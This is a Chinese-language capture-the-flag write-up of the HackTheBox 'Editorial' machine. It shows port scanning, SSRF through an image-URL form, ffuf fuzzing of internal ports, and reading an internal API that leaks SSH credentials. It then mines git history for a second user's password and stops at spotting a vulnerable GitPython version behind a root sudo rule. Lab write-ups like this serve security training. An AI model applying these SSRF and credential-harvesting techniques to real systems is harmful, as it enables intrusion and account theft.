# HackTheBox Editorial Writeup


HackTheBox Editorial Writeup

# 外网信息探测

**Nmap 服务探测**

目标IP 10.10.11.20

```
┌──(mighty㉿kali)-[~]
└─$ sudo nmap -n -Pn -sS -p- --min-rate 10000 10.10.11.20
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 18:28 CST
Nmap scan report for 10.10.11.20
Host is up (0.48s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http

┌──(mighty㉿kali)-[~]
└─$ sudo nmap -sV -Pn -A -p22,80 10.10.11.20
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_ 256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
```

Nmap 的扫描结果显示 `http://editorial.htb`，将目标暴露的域名添加至域名解析。

**Web 服务测试** 

访问 `http://editorial.htb`，首页是一个静态页面，并没有提供任何可交互功能。点击首页第二标签键会跳转到 /upload 页面，这个接口提供了 URL与文件上传两个敏感点


目标并不出网，我们需要给对方一个可访问到的 URL 来测试是否存在 SSRF，于是我在本地监听 7788 端口，将表单信息改为本地 IP 并点击预览，发现本地真的接收到了目标发送的 HTTP 连接请求。


 

如果我在本地开启 Web 服务，并提供 image.png 图片，目标会读取图片， 同时网页也能够预览该图片

这也说明了这个功能点的逻辑是提供一个在线图片网址，服务器就会访问并下载，至于图片会存储多久，也许一直存储在本地，也许预览完就会清理掉。

 

BurpSuite 抓包，还能够发现返回包中有图片存储本地路径的信息



 当我不提供任何图片时，直接让目标访问我的Web 服务根目录，看到对方直接就读取了根目录列表并存在返回的文件中

 

 假如我填写的是 127.0.0.1，让服务器访问自己本地网站，显示如下


这不就是这张图片？



通过这个接口，目标可以读取任何有效的 URL 内容，乃至本地的资源，很显然这是经典且熟知的漏洞 - SSRF

#  SSRF内部端口识别

通过该程序提供的 HTTP 请求功能，我尝试判断是否存在**本地无法访问的服务端口** 

首先将表单信息改为127.0.0.1，端口改为80、22，这是已知的两个端口，分别提交。80端口等待了长时间才返回结果，而22端口立刻就返回了结果，结果都是回显之前的空白图片

 

 



我再次尝试请求一个不存在的端口



和22端口一样很快的返回了结果，同样是之前的空白图片



**接下来我尝试枚举所有端口。** 

SSRF fuzz 工具选择可以是 BurpSuite，也可以是其他模糊测试工具，这里我选择 ffuf

将 HTTP 请求体中需要替换的内容使用占位符FUZZ替代，并保存在 requests.txt



```
ffuf -u http://editorial.htb/upload-cover -request ssrf.request -w <(seq 0 65535) -ac
```

扫描完毕，结果显示 5000



5000 端口与其他已经确认的未开放端口的状态码等结果有所不同，这非常有理由怀疑其内部开放。我填写表单直接请求 5000 端口，服务器返回的确是不同的结果





返回的路径下载到了一个文本文件。缓存时间比较短暂，是因为有一个自动清理的脚本在运行



将文本进行 Json 格式化



根据 Json 信息及之前的一些信息，推测它可能在运行基于 Flask 构建的 Web API 应用。这个应用负责处理 HTTP 请求，并响应 JSON 格式的数据，用于处理和管理用户、版本更新等信息，**接下来我尝试去抓取这些API端点信息** 

## API端点信息获取

依次填写表单请求各个API ，随后获取返回的文本文件

http://127.0.0.1:5000/api/latest/metadata/messages/coupons 



/api/latest/metadata/messages/authors 



/api/latest/metadata/changelog 



在 authors 的 JSON 文本中，发现账户密码泄露

```
dev/dev080217_devAPI!@
```

使用 SSH 尝试连接，登录成功



# dev -> prod 用户移动

## 内网信息收集

**先进行内网信息收集**

看用户权限列表

```shell
dev@editorial:~$ sudo -l
[sudo] password for dev: 
Sorry, user dev may not run sudo on editorial.
```

列出 SUID 文件，并没有可利用提权的文件

```shell
dev@editorial:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
```

系统下存在两个用户，dev、prod

```shell
dev@editorial:~$ cd /home
dev@editorial:/home$ ls
dev  prod
dev@editorial:/home$ ls -liah
total 16K
76438 drwxr-xr-x  4 root root 4.0K Jun  5 14:36 .
    2 drwxr-xr-x 18 root root 4.0K Jun  5 14:54 ..
79764 drwxr-x---  4 dev  dev  4.0K Oct 22 06:52 dev
77643 drwxr-x---  5 prod prod 4.0K Jun  5 14:36 prod
```

我传入 pspy64 监控定时任务，发现服务器定时执行 clear.sh 脚本清理 `/static/uploads/.` 目录，这也对应了前面调用服务器发送 HTTP 请求读取信息，一会缓存就没了的情况。



可惜普通用户权限不足以修改该文件内容。


## Git 历史记录敏感信息收集

dev 用户路径下存在一个 apps 目录，进入该目录，发现这是一个 `git` 项目文件夹，`.git` 目录仍然存在

```shell
dev@editorial:/home$ cd ~
dev@editorial:~$ ls -liah
total 36K
79764 drwxr-x--- 4 dev  dev  4.0K Oct 22 06:52 .
76438 drwxr-xr-x 4 root root 4.0K Jun  5 14:36 ..
79704 drwxrwxr-x 3 dev  dev  4.0K Jun  5 14:36 apps
80303 lrwxrwxrwx 1 root root    9 Feb  6  2023 .bash_history -> /dev/null
80301 -rw-r--r-- 1 dev  dev   220 Jan  6  2022 .bash_logout
80256 -rw-r--r-- 1 dev  dev  3.7K Jan  6  2022 .bashrc
79703 drwx------ 2 dev  dev  4.0K Jun  5 14:36 .cache
  187 -rw------- 1 dev  dev    20 Oct 22 06:52 .lesshst
80300 -rw-r--r-- 1 dev  dev   807 Jan  6  2022 .profile
83829 -rw-r----- 1 root dev    33 Oct 22 04:06 user.txt
```

说明这个项目之前使用了 Git 进行版本控制。然而，当运行 git status 时，Git 显示了项目中的文件都已被删除。

```shell
dev@editorial:~/apps$ ls -liah
total 12K
79704 drwxrwxr-x 3 dev dev 4.0K Jun  5 14:36 .
79764 drwxr-x--- 4 dev dev 4.0K Oct 22 06:52 ..
77696 drwxr-xr-x 8 dev dev 4.0K Oct 22 06:49 .git

dev@editorial:~/apps$ git status

On branch master                                                                  
Changes not staged for commit:                                                  
  (use "git add/rm <file>..." to update what will be committed)                   
  (use "git restore <file>..." to discard changes in working directory)        
  
        deleted:    app_api/app.py                                                
        deleted:    app_editorial/app.py                                       
        deleted:    app_editorial/static/css/bootstrap-grid.css                 
        deleted:    app_editorial/static/css/bootstrap-grid.css.map              
        deleted:    app_editorial/static/css/bootstrap-grid.min.css                                         
        deleted:    app_editorial/static/css/bootstrap-grid.min.css.map                                     
        deleted:    app_editorial/static/css/bootstrap-grid.rtl.css                                         
        deleted:    app_editorial/static/css/bootstrap-grid.rtl.css.map                                     
        deleted:    app_editorial/static/css/bootstrap-grid.rtl.min.css
        deleted:    app_editorial/static/css/bootstrap-grid.rtl.min.css.map
        deleted:    app_editorial/static/css/bootstrap-reboot.css
        deleted:    app_editorial/static/css/bootstrap-reboot.css.map
        deleted:    app_editorial/static/css/bootstrap-reboot.min.css
        deleted:    app_editorial/static/css/bootstrap-reboot.min.css.map
        deleted:    app_editorial/static/css/bootstrap-reboot.rtl.css
        deleted:    app_editorial/static/css/bootstrap-reboot.rtl.css.map
        deleted:    app_editorial/static/css/bootstrap-reboot.rtl.min.css
        deleted:    app_editorial/static/css/bootstrap-reboot.rtl.min.css.map
        deleted:    app_editorial/static/css/bootstrap-utilities.css
        deleted:    app_editorial/static/css/bootstrap-utilities.css.map
        deleted:    app_editorial/static/css/bootstrap-utilities.min.css
        deleted:    app_editorial/static/css/bootstrap-utilities.min.css.map
        deleted:    app_editorial/static/css/bootstrap-utilities.rtl.css
        deleted:    app_editorial/static/css/bootstrap-utilities.rtl.css.map
        deleted:    app_editorial/static/css/bootstrap-utilities.rtl.min.css
        deleted:    app_editorial/static/css/bootstrap-utilities.rtl.min.css.map
        deleted:    app_editorial/static/css/bootstrap.css
        deleted:    app_editorial/static/css/bootstrap.css.map
        deleted:    app_editorial/static/css/bootstrap.min.css
        deleted:    app_editorial/static/css/bootstrap.min.css.map
        deleted:    app_editorial/static/css/bootstrap.rtl.css
        deleted:    app_editorial/static/css/bootstrap.rtl.css.map
        deleted:    app_editorial/static/css/bootstrap.rtl.min.css
        deleted:    app_editorial/static/css/bootstrap.rtl.min.css.map
        deleted:    app_editorial/static/images/login-background.jpg
        deleted:    app_editorial/static/images/pexels-janko-ferlic-590493.jpg
        deleted:    app_editorial/static/images/pexels-min-an-694740.jpg
        deleted:    app_editorial/static/js/bootstrap.bundle.js
        deleted:    app_editorial/static/js/bootstrap.bundle.js.map
        deleted:    app_editorial/static/js/bootstrap.bundle.min.js
        deleted:    app_editorial/static/js/bootstrap.bundle.min.js.map
        deleted:    app_editorial/static/js/bootstrap.esm.js
        deleted:    app_editorial/static/js/bootstrap.esm.js.map
        deleted:    app_editorial/static/js/bootstrap.esm.min.js
        deleted:    app_editorial/static/js/bootstrap.esm.min.js.map
        deleted:    app_editorial/static/js/bootstrap.js
        deleted:    app_editorial/static/js/bootstrap.js.map
        deleted:    app_editorial/static/js/bootstrap.min.js
        deleted:    app_editorial/static/js/bootstrap.min.js.map
        deleted:    app_editorial/templates/about.html
        deleted:    app_editorial/templates/index.html
        deleted:    app_editorial/templates/upload.html
```

Git 是一个分布式版本控制系统，它允许开发者跟踪代码库的变化，并且可以在不同版本之间切换。`.git` 目录是一个隐藏文件夹，存储了该项目的所有版本历史记录、分支信息、提交记录等。

`.git` 目录通常包含的内容有：

```
objects/：存储着项目的所有数据对象，每一个文件的所有版本都存储为对象。
refs/：记录了分支和标签。
config：Git 项目的配置文件。
HEAD：指向当前活动的分支。
```

推测开发者可能删除了项目文件，但忘记了删除 `.git` 目录，导致版本控制信息还留在系统中。这种情况下，仍然可以通过 `.git` 恢复被删除的文件或获取有用的敏感信息。

查看之前的提交，寻找敏感信息，有时候开发者可能会在提交历史中留下敏感信息，比如API密钥、数据库密码，甚至是应用程序的凭据。

```shell
dev@editorial:~/apps$ git log --oneline
8ad0f31 (HEAD -> master) fix: bugfix in api port endpoint
dfef9f2 change: remove debug and update api port
b73481b change(api): downgrading prod to dev
1e84a03 feat: create api to editorial info
3251ec9 feat: create editorial app

//git log --oneline 以简洁的方式展示Git仓库的提交历史，每个提交信息会包含一个提交的哈希值以及提交时的简要描述
```

发现提交记录中，有这样一句 `downgrading prod to dev`，这句信息表明开发者将 prod 降级为 dev，这一步操作极有可能遗留一些敏感信息，使用 `git diff` 查看代码更改的差异，定位具体更改内容

```
dev@editorial:~/apps$ git diff 1e84a03 b73481b
diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

在两次更改的差异中找到了密码信息

```
- Username: prod
- Password: 080217_Producti0n_2023!@
+ Username: dev
+ Password: dev080217_devAPI!@
```

使用账号密码切换至 prod 用户，成功



# Root 权限提升

从 `Dev` 用户切换至 `Prod` 用户，并用 `sudo -l ` 列出用户具有的 `sudo` 权限，发现具备使用 root 权限运行 `clone_prod_change.py` 文件的权限

```
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

查看 `/opt/internal_apps/clone_changes/clone_prod_change.py` 文件，发现代码使用了 `gitpython` 库调用 `git` 



常规提权方式几乎被锁死，GitPython 库是否存在历史漏洞？当前 `GitPython` 库版本为 3.1.29，通过网络检索发现这个版本是存在 CVE 漏洞的



